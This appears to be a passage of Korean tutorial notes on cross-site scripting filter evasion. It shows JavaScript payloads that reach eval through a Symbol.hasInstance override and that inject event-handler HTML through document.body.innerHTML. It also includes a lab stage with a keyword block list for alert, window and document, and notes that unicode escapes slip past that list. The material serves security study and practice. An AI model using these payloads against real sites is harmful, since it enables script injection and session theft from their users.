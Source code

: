 ### Symbol.hasInstance 오버라이딩  
**Symbol.hasInstance** *well-known symbol*을 이용하면 **instanceof 연산자를 오버라이드(재정의)** 할 수 있습니다.(obj instanceof Class -> **obj**가 **Class에 속하거나** Class를 **상속받는 클래스에 속하면** true가 반환)  

```javascript
"alert\x28document.domain\x29"instanceof{[Symbol.hasInstance]:eval};
Array.prototype[Symbol.hasInstance]=eval;"alert\x28document.domain\x29"instanceof[];
```

### document.body.innerHTML 추가  
자바스크립트에서는 문서 내에 **새로운 HTML 코드를 추가**하는 것이 가능하다.  
**document.body.innerHTML** 를 이용해 새로운 HTML 코드를 추가할 수 있다.(단, **script** 태그는 제외)  
```javascript
document.body.innerHTML+="<img src=x: onerror=alert&#40;1&#41;>";
document.body.innerHTML+="<body src=x: onload=alert&#40;1&#41;>";
```

## 자바스크립트 함수 및 키워드 필터링 실습  
### Stage 1  

```javascript
function XSSFilter(data){
  if(/alert|window|document/.test(data)){
    return false;
  }
  return true;
} 
```

**alert, window, document** 를 필터링 한다.  
즉, alert, document는 **유니코드**를 사용할 수 있다.   
<img src="2.jpg">  
